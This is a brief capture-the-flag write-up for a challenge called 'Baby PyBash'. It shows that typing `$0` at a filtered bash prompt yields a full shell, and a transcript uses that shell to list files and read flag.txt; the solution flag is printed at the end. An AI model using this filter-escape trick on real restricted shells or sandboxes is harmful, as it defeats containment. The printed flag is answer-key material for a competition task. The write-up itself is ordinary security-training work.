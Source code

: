 ```yaml
---
ai_date: 2025-04-27 05:14:01
ai_summary: Exploitation involves using `$0` to gain bash access and retrieve the flag
ai_tags:
  - shell
  - cmd-injection
  - exploitation
created: 2024-08-30T19:04
points: 50
solves: 211
updated: 2025-07-14T09:46
---
```


Just use `$0` and you will have bash access.

```
== proof-of-work: disabled ==
Welcome to Baby PyBash!

Enter a bash command: $0
ls
chall.py
flag.txt
run.sh
cat flag.txt
```

```flag
CSCTF{b4sH_w1z4rd_0r_ju$t_ch33s3_m4st3r?_c1d4eeb2a}
```